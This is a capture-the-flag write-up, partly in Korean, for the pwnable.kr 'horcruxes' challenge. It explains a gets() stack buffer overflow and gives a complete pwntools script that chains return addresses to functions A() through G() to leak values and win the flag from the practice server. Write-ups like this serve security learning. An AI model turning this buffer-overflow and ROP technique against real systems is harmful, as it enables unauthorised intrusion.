 # [pwnable.kr] horcruxes

> Voldemort concealed his splitted soul inside 7 horcruxes.
> Find all horcruxes, and ROP it!
> author: jiwon choi
>
> ssh horcruxes@pwnable.kr -p2222 (pw:guest)

## Bug

![image](https://github.com/user-attachments/assets/0b9bc9c6-cf3c-4904-aaaa-6115016c092b)

`ropme()`의 `gets(s)`에서 stack buffer overflow가 발생한다.

## Exploit

`ropme()`의 return address를 플래그를 읽어와서 출력하는 코드의 주소로 덮으면 될 것 같지만, 주소에 `0x0a`가 포함되기 때문에 불가능하다. 대신 `A()`부터 `G()`까지 모두 호출하여 `a`부터 `g`까지의 값을 알아낸 후 `sum`을 알맞게 입력하면 플래그를 획득할 수 있다.

```python
# ex.py

from pwn import *

r = remote("pwnable.kr", 9032)

sla = r.sendlineafter

A = 0x809FE4B  # A()
B = 0x809FE6A  # B()
C = 0x809FE89  # C()
D = 0x809FEA8  # D()
E = 0x809FEC7  # E()
F = 0x809FEE6  # F()
G = 0x809FF05  # G()
main = 0x809FF24  # main()

sla(b"Select Menu:", b"0")

payload = b"A" * 0x78
payload += p32(A)
payload += p32(B)
payload += p32(C)
payload += p32(D)
payload += p32(E)
payload += p32(F)
payload += p32(G)
payload += p32(main + 216)  # call ropme

sla(b"How many EXP did you earned? : ", payload)

r.recvuntil(b"EXP +")
a = int(r.recvuntil(b")")[:-1])

r.recvuntil(b"EXP +")
b = int(r.recvuntil(b")")[:-1])

r.recvuntil(b"EXP +")
c = int(r.recvuntil(b")")[:-1])

r.recvuntil(b"EXP +")
d = int(r.recvuntil(b")")[:-1])

r.recvuntil(b"EXP +")
e = int(r.recvuntil(b")")[:-1])

r.recvuntil(b"EXP +")
f = int(r.recvuntil(b")")[:-1])

r.recvuntil(b"EXP +")
g = int(r.recvuntil(b")")[:-1])

sum = a + b + c + d + e + f + g
if sum > 0x7FFFFFFF:
    sum -= 0x100000000

sla(b"Select Menu:", b"0")
sla(b"How many EXP did you earned? : ", str(sum).encode())

r.interactive()
```

![image](https://github.com/user-attachments/assets/13886f51-f545-45c6-a400-733c2a92eae3)
